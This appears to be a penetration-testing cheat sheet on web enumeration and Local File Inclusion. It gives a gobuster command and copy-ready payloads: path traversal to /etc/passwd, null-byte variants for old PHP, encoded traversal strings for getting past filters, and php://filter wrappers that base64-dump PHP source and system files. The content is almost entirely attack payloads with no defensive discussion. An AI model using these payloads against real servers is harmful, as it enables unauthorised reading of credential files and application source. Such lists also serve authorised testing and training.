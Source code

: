 ##### Specifiy User Agent

```c
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<RHOST>/ -a Linux
```

#### Local File Inclusion (LFI)

```c
http://<RHOST>/<FILE>.php?file=
http://<RHOST>/<FILE>.php?file=../../../../../../../../etc/passwd
http://<RHOST>/<FILE>/php?file=../../../../../../../../../../etc/passwd
```
##### Until php 5.3

```c
http://<RHOST>/<FILE>/php?file=../../../../../../../../../../etc/passwd%00
```

##### Null Byte

```c
%00
0x00
```

##### Encoded Traversal Strings

```c
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
```

##### php://filter Wrapper

> https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb

> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter

```c
url=php://filter/convert.base64-encode/resource=file:////var/www/<RHOST>/api.php
```

```c
http://<RHOST>/index.php?page=php://filter/convert.base64-encode/resource=index
http://<RHOST>/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
base64 -d <FILE>.php
```

